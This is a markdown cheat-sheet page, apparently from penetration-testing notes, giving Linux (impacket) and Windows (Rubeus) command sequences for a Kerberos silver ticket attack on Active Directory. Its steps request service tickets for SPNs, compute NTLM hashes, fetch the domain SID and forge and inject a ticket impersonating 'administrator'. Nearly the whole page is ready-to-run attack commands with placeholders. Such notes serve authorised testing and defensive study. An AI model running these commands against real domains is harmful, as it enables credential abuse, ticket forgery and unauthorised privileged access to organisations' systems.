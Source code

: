 ```yaml
---
title: "Silver Ticket"
date: 2024-7-30
tags: ["silver ticket", "rubeus", "active directory", "ad", "domain controller", "Windows", "GetUserSPNs"]
---
```


---
### Silver Ticket Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Get service principle name (SPN)

<div>

```bash
sudo ntpdate -s <DC> && impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC> -request -k
```

```bash
# If NTLM auth is disabled
sudo ntpdate -s <DC> && impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -dc-host <DC> -request -k
```

</div>

#### 2. Generate NTLM

<div>

```bash
iconv -f ASCII -t UTF-16LE <(printf "<PASSWORD>") | openssl dgst -md4
```

</div>

#### 3. Get domain SID

<div>

```bash
sudo ntpdate -s <DC> && impacket-getPac -targetUser administrator <DOMAIN>/<USER>:<PASSWORD>
```

</div>

#### 4. Generate Silver Ticket

<div>

```bash
impacket-ticketer -nthash <HASH> -domain-sid <SID> -domain <DOMAIN> -dc-ip <DC> -spn <SPN> administrator
```

</div>

#### 5. Import ticket

<div>

```bash
export KRB5CCNAME=administrator.ccache
```

</div>

#### 6. Check

<div>

```bash
klist
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### 1. Get service principle name (SPN)

<div>

```powershell
.\rubeus.exe kerberoast /domain:<DOMAIN> /dc:<DC> /creduser:<DOMAIN>\<USER> /credpassword:<PASSWORD> /nowrap
```

</div>

#### 2. Generate NTLM

<div>

```powershell
.\rubeus.exe hash /password:<PASSWORD>
```

</div>

#### 3. Get domain SID

#### 3a. Locally

<div>

```powershell
import-module activedirectory
```

```powershell
Get-ADDomain | fl DomainSID
```

</div>

#### 3b. Remotely

<div>

```powershell
# Install ldp.exe (Windows 11)
Settings > System > Optional Features > More Windows Features and add 'Active Driectory Lightweight Directory Services'
```

```powershell 
# Bind > Bind with credentials
ldp.exe
```

```powershell
# Browse > Search
BaseDN: DC=<example>,DC=<com>
Filter: (objectclass=User)
```

</div>

#### 4. Generate silver ticket

<div>

```powershell
.\rubeus.exe silver /domain:<DOMAIN> /dc:<DC> /sid:<SID> /rc4:<HASH> /user:administrator /service:<SPN> /nowrap /ptt
```

</div>

#### 5. Check

<div>

```powershell
klist
```

</div>

{{< /tabcontent >}}


<br>